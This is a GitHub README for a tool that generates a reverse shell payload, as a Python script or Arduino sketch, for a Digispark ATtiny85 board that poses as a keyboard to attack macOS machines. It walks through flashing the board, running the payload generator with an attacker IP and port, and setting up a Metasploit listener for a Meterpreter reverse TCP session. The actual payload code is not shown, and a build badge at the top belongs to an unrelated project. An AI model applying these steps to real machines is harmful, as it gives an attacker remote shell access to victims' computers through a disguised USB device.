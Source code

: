![Build Status](https://github.com/subsurface/subsurface/workflows/Mac/badge.svg)

## What is digispark?
Digispark is a Attiny85 based microcontroller that can be used as a trusted HID-MIDI device. This project addresses its vulnerability, which injects malicious code into the machine. 

## Digispark reverse shell

The script creates either a reverse shell python script or arduino sketch for digispark. The script is compatible with metasploit.</br>
This Digispark sketch is intended to run on OS X operating System.


## Features

- Creates a reverse shell python script
- Creates a Arduino sketch for digispark

## Arduino Configuration

To flash the microcontroller, you need to add this link to your boards maneger</br>
Arduino > File > Preferences > Additional Boards Manager URLs:
```
https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json
```

Once the link is added, head over to Tools > Bord > Boards Manager, search for "Digistump AVR Boards" and make sure it is installed.


## Installation

Clone this repository
``` 
git clone https://github.com/https-sam/digispark_reverse_shell.git
```

```
cd scripts
```

`-p and -i tags` are required.
```
python3 payloadGenerator.py -i IP ADDRESS -p PORT
```

`-py True` is optional, which only creates a python reverse shell script.
```
python3 payloadGenerator.py -i IP Address -p PORT -py True
```


## Set up

Metsploit can be used as a listener
``` 
msfconsole
use multi/handler
set payload python/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport PORT
run
````



## License

MIT


- [Digistump](https://github.com/digistump/DigisparkArduinoIntegration/blob/master/libraries/DigisparkKeyboard/DigiKeyboard.h) - Library for digispark
- [Micronucleus](https://github.com/micronucleus/micronucleus) - processor
- [Metasploit](https://github.com/rapid7/metasploit-framework) 


